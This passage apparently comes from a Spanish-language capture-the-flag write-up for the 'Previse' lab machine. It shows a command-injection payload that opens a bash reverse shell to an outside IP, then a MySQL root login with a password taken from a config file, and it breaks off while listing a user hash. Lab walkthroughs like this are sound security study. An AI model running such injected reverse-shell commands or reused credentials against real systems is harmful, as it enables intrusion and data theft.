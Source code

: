 ahora me enviaré una reverse shell 

```bash
delim=comma; bash -c 'bash -i >%26 /dev/tcp/10.10.14.9/443 0>%261' 
```
y estamos dentro como www-data 

![](/assets/img/commons/Previse/terminal16.png)

hay que recordar, la parte de los archivos conf.php. su base de datos estaba establecida en su propio localhost. me conectaré como el usuario **root** con la contraseña **mySQL_p@ssw0rd!:)**

![](/assets/img/commons/Previse/terminal17.png) 

explorando las bases de datos busqué sobre la db llamada previse sus tablas y en accounts me encuentro con un usuario llamado m4lwhere con un hash 
